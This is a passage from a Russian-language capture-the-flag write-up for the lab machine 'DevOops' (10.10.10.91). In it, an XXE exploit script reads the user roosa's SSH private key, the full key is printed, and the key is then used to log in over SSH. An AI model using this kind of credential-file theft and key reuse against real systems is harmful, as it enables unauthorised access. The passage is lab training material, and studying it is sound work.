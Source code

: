 Первое, что приходит на ум — это проверить SSH-ключ *roosa*. И попытка оказывается успешной вследствие невнимательности автора подопытной машины:
```text
root@kali:~# python3 devoops_xxe.py /home/roosa/.ssh/id_rsa
-----BEGIN RSA PRIVATE KEY-----
MIIEogIBAAKCAQEAuMMt4qh/ib86xJBLmzePl6/5ZRNJkUj/Xuv1+d6nccTffb/7
9sIXha2h4a4fp18F53jdx3PqEO7HAXlszAlBvGdg63i+LxWmu8p5BrTmEPl+cQ4J
R/R+exNggHuqsp8rrcHq96lbXtORy8SOliUjfspPsWfY7JbktKyaQK0JunR25jVk
v5YhGVeyaTNmSNPTlpZCVGVAp1RotWdc/0ex7qznq45wLb2tZFGE0xmYTeXgoaX4
9QIQQnoi6DP3+7ErQSd6QGTq5mCvszpnTUsmwFj5JRdhjGszt0zBGllsVn99O90K
m3pN8SN1yWCTal6FLUiuxXg99YSV0tEl0rfSUwIDAQABAoIBAB6rj69jZyB3lQrS
JSrT80sr1At6QykR5ApewwtCcatKEgtu1iWlHIB9TTUIUYrYFEPTZYVZcY50BKbz
ACNyme3rf0Q3W+K3BmF//80kNFi3Ac1EljfSlzhZBBjv7msOTxLd8OJBw8AfAMHB
lCXKbnT6onYBlhnYBokTadu4nbfMm0ddJo5y32NaskFTAdAG882WkK5V5iszsE/3
koarlmzP1M0KPyaVrID3vgAvuJo3P6ynOoXlmn/oncZZdtwmhEjC23XALItW+lh7
e7ZKcMoH4J2W8OsbRXVF9YLSZz/AgHFI5XWp7V0Fyh2hp7UMe4dY0e1WKQn0wRKe
8oa9wQkCgYEA2tpna+vm3yIwu4ee12x2GhU7lsw58dcXXfn3pGLW7vQr5XcSVoqJ
Lk6u5T6VpcQTBCuM9+voiWDX0FUWE97obj8TYwL2vu2wk3ZJn00U83YQ4p9+tno6
NipeFs5ggIBQDU1k1nrBY10TpuyDgZL+2vxpfz1SdaHgHFgZDWjaEtUCgYEA2B93
hNNeXCaXAeS6NJHAxeTKOhapqRoJbNHjZAhsmCRENk6UhXyYCGxX40g7i7T15vt0
ESzdXu+uAG0/s3VNEdU5VggLu3RzpD1ePt03eBvimsgnciWlw6xuZlG3UEQJW8sk
A3+XsGjUpXv9TMt8XBf3muESRBmeVQUnp7RiVIcCgYBo9BZm7hGg7l+af1aQjuYw
agBSuAwNy43cNpUpU3Ep1RT8DVdRA0z4VSmQrKvNfDN2a4BGIO86eqPkt/lHfD3R
KRSeBfzY4VotzatO5wNmIjfExqJY1lL2SOkoXL5wwZgiWPxD00jM4wUapxAF4r2v
vR7Gs1zJJuE4FpOlF6SFJQKBgHbHBHa5e9iFVOSzgiq2GA4qqYG3RtMq/hcSWzh0
8MnE1MBL+5BJY3ztnnfJEQC9GZAyjh2KXLd6XlTZtfK4+vxcBUDk9x206IFRQOSn
y351RNrwOc2gJzQdJieRrX+thL8wK8DIdON9GbFBLXrxMo2ilnBGVjWbJstvI9Yl
aw0tAoGAGkndihmC5PayKdR1PYhdlVIsfEaDIgemK3/XxvnaUUcuWi2RhX3AlowG
xgQt1LOdApYoosALYta1JPen+65V02Fy5NgtoijLzvmNSz+rpRHGK6E8u3ihmmaq
82W3d4vCUPkKnrgG8F7s3GL6cqWcbZBd0j9u88fUWfPxfRaQU3s=
-----END RSA PRIVATE KEY-----
```

И на этом заканчивается первый способ, мы в системе :sweat_smile:
```text
root@kali:~# python3 devoops_xxe.py /home/roosa/.ssh/id_rsa > roosa.key
root@kali:~# chmod 600 roosa.key
root@kali:~# ssh -oStrictHostKeyChecking=no -i roosa.key roosa@10.10.10.91
Welcome to Ubuntu 16.04.4 LTS (GNU/Linux 4.13.0-37-generic i686)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

135 packages can be updated.
60 updates are security updates.

roosa@gitter:~$ whoami
roosa

roosa@gitter:~$ id
uid=1002(roosa) gid=1002(roosa) groups=1002(roosa),4(adm),27(sudo)
```
